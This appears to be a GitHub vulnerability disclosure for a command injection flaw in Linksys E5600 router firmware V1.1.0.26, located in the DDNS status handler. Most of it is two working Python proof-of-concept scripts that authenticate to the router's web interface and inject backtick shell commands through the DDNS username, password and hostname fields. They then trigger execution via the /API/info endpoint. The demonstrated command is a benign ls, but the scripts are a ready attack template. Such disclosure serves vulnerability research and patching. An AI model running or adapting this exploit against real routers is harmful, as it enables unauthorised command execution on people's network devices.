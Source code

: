 # Linksys E5600 V1.1.0.26 command injection
## Product Information

    Device: Linksys E5600
    Firmware Version: V1.1.0.26
    Manufacturer's website information：https://www.linksys.com/
    Firmware download address ：https://downloads.linksys.com/support/assets/firmware/FW_E5600_1.1.0.26_prod.img

![image-20250224102758745](https://github.com/JZP018/Vuln/blob/main/linsys/E5600/CI_ddnsStatus/image-20250304104409485.png)
## Vulnerability Description
Through the fcgi_control.lua file, it can be observed that when using the POST method with item set to 'obj', certain parameters of the router can be configured via parse.

![image-20250224110329468](https://github.com/JZP018/Vuln/blob/main/linsys/E5600/CI_ddnsStatus/image-20250304104528779.png)

![image](https://github.com/JZP018/Vuln/blob/main/linsys/E5600/CI_ddnsStatus/image-20250304104622900.png)

For example, using the following code, we can configure Dynamic DNS (DDNS) settings.
```python
import requests
import json

url1 = 'http://192.168.10.6/cgi-bin/login.cgi'
data1 = {"username":"YWRtaW4%3D","password":"MTIzNDU2","token":"","source":"web","cn":"","action":"auth"}

response1 = requests.post(url1, data=json.dumps(data1))
print(response1.text)

url2 = 'http://192.168.10.6/API/obj'
headers = {
    'Host': '192.168.10.6',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36',
    'Content-Type': 'application/json',
    'Origin': 'http://192.168.10.6',
    'Referer': 'http://192.168.10.6/idp/idp_ping.html',
    'Cookie': response1.headers['Set-Cookie'].split(" ")[0],
}
data2 = {
    "ddns":{"DdnsP":{"enable":"1","username":"`ls>www/11.txt`","password":"`ls>www/12.txt`","hostname":"\';`ls>www/13.txt` ;#","provider":"no-ip.com","system":"0","mailex":"","backupmailex":"0","wildcard":"0","ip":"","status":""}}
}

response2 = requests.post(url2, headers=headers, data=json.dumps(data2))
print(response2.text)
```
However, in the file `usr\share\lua\runtime.lua`, the function `ddnsStatus` exists. When requesting the DDNS status, according to the program logic, it executes `objReq Ddns json` to retrieve the DDNS configuration information. If the return value of the executed command `ping -q -c 2 -w 2 8.8.8.8 > /dev/null 2>&1; echo $?` is not equal to 1, the program proceeds to execute code containing a command injection vulnerability. Command injection attacks can be achieved via the four parameters: `k.DdnsP.username`, `k.DdnsP.password`, `k.DdnsP.hostname`, and `k.DdnsP.mailex`.

![image](https://github.com/JZP018/Vuln/blob/main/linsys/E5600/CI_ddnsStatus/image-20250304105024762.png)

## Payload
```python
import requests
import json

url1 = 'http://192.168.10.6/cgi-bin/login.cgi'
data1 = {"username":"YWRtaW4%3D","password":"MTIzNDU2","token":"","source":"web","cn":"","action":"auth"}

response1 = requests.post(url1, data=json.dumps(data1))
print(response1.text)

url2 = 'http://192.168.10.6/API/obj'
headers = {
    'Host': '192.168.10.6',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36',
    'Content-Type': 'application/json',
    'Origin': 'http://192.168.10.6',
    'Referer': 'http://192.168.10.6/idp/idp_ping.html',
    'Cookie': response1.headers['Set-Cookie'].split(" ")[0],
}
data2 = {
    "ddns":{"DdnsP":{"enable":"1","username":"`ls>www/11.txt`","password":"`ls>www/12.txt`","hostname":"\';`ls>www/13.txt` ;#","provider":"no-ip.com","system":"0","mailex":"","backupmailex":"0","wildcard":"0","ip":"","status":""}}
}

response2 = requests.post(url2, headers=headers, data=json.dumps(data2))
print(response2.text)

url3 = 'http://192.168.10.6/API/info'
data3 = {
     'ddnsStatus': {
    }
}

response3 = requests.post(url3, headers=headers, data=json.dumps(data3))
print(response3.text)
```
For instance, using the aforementioned POC, we achieved an **ls command injection** and saved the output results in **www/11.txt**, **www/12.txt**, and **www/13.txt**. As shown in the figure below, the **ls command injection** was successfully executed.
[CI_ddnsStatus.py](https://github.com/JZP018/Vuln/blob/main/linsys/E5600/CI_ddnsStatus/CI_ddnsStatus.py)

![image](https://github.com/JZP018/Vuln/blob/main/linsys/E5600/CI_ddnsStatus/image-20250304105424498.png)

![image](https://github.com/JZP018/Vuln/blob/main/linsys/E5600/CI_ddnsStatus/image-20250304105505839.png)

![image](https://github.com/JZP018/Vuln/blob/main/linsys/E5600/CI_ddnsStatus/image-20250304105531119.png)


